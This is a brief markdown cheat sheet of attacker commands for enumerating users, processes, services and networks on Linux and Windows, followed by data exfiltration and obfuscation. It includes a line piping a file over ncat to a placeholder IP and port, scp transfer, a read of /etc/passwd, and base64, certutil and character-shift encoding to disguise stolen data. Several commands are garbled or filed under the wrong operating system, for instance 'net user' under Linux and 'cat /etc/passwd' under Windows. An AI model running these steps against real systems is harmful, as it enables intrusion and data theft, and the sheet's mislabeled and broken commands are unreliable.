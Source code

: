 # Linux
- User Enumeration
  - `net user`
- Process Enum:
  - `ps -elf`
  - `top` or `htop` (if available)
- Service Enumeration:
  - `systemctl --type=service` (SystemD)
  - `chkconfig` (SysV systems)
- Network Enumeration:
  - `ip addr`
  - `ifconfig -a` (deprecated)
- Data Exfiltration
  - `ssh <user>@<host> | tee`
- Obfuscation
```
cat <file> | tr 'a-zA-Z0-9' 'b-zA-Z0-9a' > shifted.txt
cat <file>> | base64
```
- Encrypted Transport
```
scp <source> <destination>
ncat --ssl <ip> <port> < <file>
```
# Windows
- User Enumeration
  - `w` (active users)
  - `cat /etc/passwd` (all users)
- Process Enumeration:
  - `tasklist /v`
- Service Enumeration:
  - `tasklist /svc`
- Network Enumeration:
  - `ipconfig /all`
- Obfuscation:
```
type <file> | %{$_ -replace 'a','b' -replace 'b','c' -replace 'c','d'} > translated.out
certutil -encode <file> encoded.b64
```
